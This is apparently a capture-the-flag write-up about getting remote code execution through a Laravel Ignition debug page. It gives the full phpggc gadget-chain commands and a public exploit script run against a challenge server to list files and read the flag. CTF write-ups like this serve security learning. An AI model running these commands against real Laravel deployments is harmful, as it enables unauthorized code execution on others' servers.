 Challenge desc mentioned a debug page, so lets find it

Sending a post request we find that the site uses ignition a fancy laravel error page
```html
<form method="POST"><input type=submit></form>
```

Search for an RCE

https://github.com/ambionics/laravel-exploits

Load up the RCE to ls then get the flag
```
php -d'phar.readonly=0' ./phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "ls /"
python3 laravel-ignition-rce.py http://188.166.156.174:32211/ /tmp/exploit.phar


php -d'phar.readonly=0' ./phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagrzgWA"
python3 laravel-ignition-rce.py http://188.166.156.174:32211/ /tmp/exploit.phar
```

CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
